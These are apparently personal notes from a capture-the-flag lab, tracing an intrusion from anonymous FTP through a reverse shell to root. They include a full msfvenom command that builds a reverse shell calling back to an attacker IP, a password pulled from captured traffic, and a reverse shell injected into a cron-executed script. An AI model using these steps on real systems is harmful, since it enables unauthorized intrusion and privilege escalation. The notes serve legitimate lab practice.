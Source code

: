 anonymous ftp login

couldn't get a shell to stick from bash commands
couldn't get a shell to stick from PHP reverse shell command

generated reverse shell elf with msfvenom
$ msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.18.78.209 LPORT=1234 -f elf -o reverse_shell_elf
uploaded with ftp
executed using bash command from uploaded php file

found .pcapng file in /incidents
contained user (lennie) password

$ ssh lennie@10.10.90.151

series of scripts called by cron
most owned by root, but one (/etc/print.sh) owned by lennie
inject reverse shell command in that script

root crontab ends up being..
* * * * * /home/lennie/scripts/planner.sh 
